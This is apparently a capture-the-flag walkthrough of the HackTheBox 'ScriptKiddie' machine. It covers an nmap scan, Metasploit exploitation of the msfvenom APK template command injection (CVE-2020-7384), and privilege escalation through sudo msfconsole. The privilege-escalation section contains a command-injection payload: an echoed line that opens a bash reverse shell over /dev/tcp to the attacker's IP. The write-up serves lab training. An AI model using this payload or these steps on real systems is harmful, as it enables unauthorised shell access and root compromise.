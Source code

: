 # ScriptKiddie

## Nmap Scan
Let's start with a nmap scan to extract the open ports
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 09:38 EDT
Nmap scan report for 10.10.10.226
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/22%OT=22%CT=1%CU=40802%PV=Y%DS=2%DC=T%G=Y%TM=60817C7
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:05%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   148.11 ms 10.10.14.1
2   148.18 ms 10.10.10.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.09 seconds
```

We can see that the ports 5000 and 22 are open, 5000 for http and 22 for ssh

Open the following link in the browser : http://10.10.10.226:5000

![alt text](https://miro.medium.com/max/1050/1*kHKLfZcara8e5gh-YGbe1Q.png)

A very simple page with 3 sections, Nmap scan, msfvenom and searchSploit.
We can try command injection and file Upload vulnerability.
After some research we found that is APK template command injection vulnerability : CVE-2020-7384

## Metasploit
Let's create a payload with metasploit framework using the exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection module.
The generated payload is with .apk extension.
First, start a netcat listener on the port 5555
```
nc -nlvp 5555
```
Now we can upload the payload with the Android platform and our ip address.
In our machine, we can see that the reverse connection has been established.
User flag is in users.txt flag

## Privilege Escalation
In the logs directory, we can see that the file named hackers is owned by the group pwn, so we can execute commands with this group.
Now let's establish a reverse shell using this file.
Fisrt, start another netcat listener on the port 1234
```
nc -nlvp 1234
```
now in the box machine, run the following command :

```
echo "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.76/1234 0>&1' #" >> hackers
```

BOOOOOOOOOM, the reverse connection has been made but this time with user pwn. But we need the root user, let's give a look at the sudo permissions with this command :
```
sudo -l
```
```
User pwn may run the following commands on ScriptKiddie:
  (root) NOPASSWORD: /opt/metasploit-framework-6.0.9/msfconsole
```

Nice, so we can run metasploit with root privileges and without a password
```
sudo msfconsole
```
get access to the shell
```
msf6>/bin/bash
```
now we are logged in with root user.
The system falg is located in root.txt file





